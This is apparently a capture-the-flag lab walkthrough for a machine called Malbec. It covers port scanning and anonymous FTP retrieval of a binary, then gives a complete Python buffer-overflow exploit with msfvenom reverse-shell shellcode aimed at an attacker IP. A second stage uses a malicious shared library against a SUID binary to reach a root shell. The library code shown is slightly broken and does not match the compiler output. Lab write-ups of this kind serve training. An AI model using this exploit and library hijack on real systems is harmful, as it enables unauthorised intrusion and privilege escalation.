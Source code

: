 # Malbec

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:44 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
2121/tcp open  ccproxy-ftp
7138/tcp open  unknown
```

We can do a detailed scan on this machine in case.

```
$ sudo nmap -p 22,2121,7138 -sC -sV --min-rate 4000 192.168.240.129                
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:45 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
2121/tcp open  ftp     pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.240.129:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
7138/tcp open  unknown
```

Port 2121 is FTP it seems.

### FTP --> Buffer Overflow

FTP allowed for anonymous access and it only had one file:

```
$ ftp 192.168.240.129 -p 2121
Connected to 192.168.240.129.
220 pyftpdlib 1.5.6 ready.
Name (192.168.240.129:kali): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||49067|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe
```

We can download this `.exe` file to a Windows machine for some reverse engineering.&#x20;

<figure><img src="../../../.gitbook/assets/image (3567).png" alt=""><figcaption><p><em>Old IP from Old Writeup</em></p></figcaption></figure>

When we check the listening ports on our Windows machine, we would see that `malbec.exe` opens port 7138:

<figure><img src="../../../.gitbook/assets/image (1062).png" alt=""><figcaption></figcaption></figure>

This machine thus becomes a classic buffer overflow exploit as per OSCP. For this particular binary, there weren't any bad characters (other than the NULL byte) and it was just a matter of fuzzing the offset required.&#x20;

I won't be going through how to do it since the OSCP BOF style is prett well-documented already, so here's the final script I used:

```python
#!/usr/bin/python2
import socket

ip = "192.168.240.129"
port = 7138
timeout = 5

pattern = ""
#badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# final badchars are \x00
# msfvenom --payload linux/x86/shell_reverse_tcp LHOST=192.168.45.216 LPORT=21 --format c --bad-chars '\x00'
print ("\nSending evil buffer...")
size = 340
offset = "A"*size #filler
eip = "\x03\x15\x10\x41" #rtn
nop = "\x90" * 162
payload =("\xdb\xcf\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbf\xc0\xf8"
"\xda\x09\x31\x7a\x17\x03\x7a\x17\x83\x2a\x04\x38\xfc\x9b"
"\x2e\x4a\x1c\x88\x93\xe6\x89\x2c\x9d\xe8\xfe\x56\x50\x6a"
"\x6d\xcf\xda\x54\x5f\x6f\x53\xd2\xa6\x07\xa4\x8c\x74\x0f"
"\x4c\xcf\x86\xaf\x98\x46\x67\x1f\xc4\x08\x39\x0c\xba\xaa"
"\x30\x53\x71\x2c\x10\xfb\xe4\x02\xe6\x93\x90\x73\x27\x01"
"\x08\x05\xd4\x97\x99\x9c\xfa\xa7\x15\x52\x7c")

#buffer = pattern  #for fuzzing offset
#buffer = offset + badchars #for fuzzing bad chars
buffer = offset + eip + nop + payload 


s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
s.send(bytes(buffer + "\r\n".encode("latin-1")))
s.close()
print ("\nDone!")
```

We can run this exploit and get a shell as the user:

```
$ python2 exploit_main.py

Sending evil buffer...

Done!
```

<figure><img src="../../../.gitbook/assets/image (2766).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Malicious Library

I ran a `linpeas.sh` scan on the machine, and it found a few interesting things.  Firstly, `root` is running `ldconfig` periodically:

<figure><img src="../../../.gitbook/assets/image (4032).png" alt=""><figcaption></figcaption></figure>

The next was this SUID binary that I didn't recognise:

```
-rwsr-xr-x 1 root root        17K Jan 26  2021 /usr/bin/messenger
```

The last was a misconfiguration of the `ld.so` files:

<figure><img src="../../../.gitbook/assets/image (3234).png" alt=""><figcaption></figcaption></figure>

This was interesting, because it appears that the user's home directory is the part of the configuration, meaning that `.so` files are executed from this directory. We can run `ldd` for the `messenger` binary to check where it loads its shared object files.&#x20;

```
carlos@malbec:/tmp$ ldd /usr/bin/messenger 
        linux-vdso.so.1 (0x00007ffd865bc000)
        libmalbec.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f64cb634000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f64cb80a000)
```

So it appears that `libmalbec.so` is not found, and it loads it from `/home/carlos`. This means that we can just create a malicious `libmalbec.so` file that gives us a shell, and since `messenger` is an SUID binary, the shell will be with `root` privileges.&#x20;

Here's the source code I took from HackTricks:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
// this function name is a result of testing, since it appears that the binary executes a malbec function
// you would get this error if not named properly:
// /usr/bin/messenger: symbol lookup error: /usr/bin/messenger: undefined symbol: malbec
void malbec(){ # the 
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```
{% endcode %}

We just need to compile this and transfer it to the machine:

```
$ gcc -shared -o libmalbec.so -fPIC exploit.c                            
exploit.c: In function ‘say_hi’:
exploit.c:9:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    9 |     system("/bin/sh",NULL,NULL);
      |  
```

Afterwards, we can wait for `root` to execute `ldconfig`, which would configure the `messenger` binary to use the `libmalbec.so` file we created. Once it does, it will show up in `ldd`:

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffe3a3e4000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f0975667000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09754a6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0975681000)
```

Then, we can just execute `messenger` to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (2502).png" alt=""><figcaption></figcaption></figure>
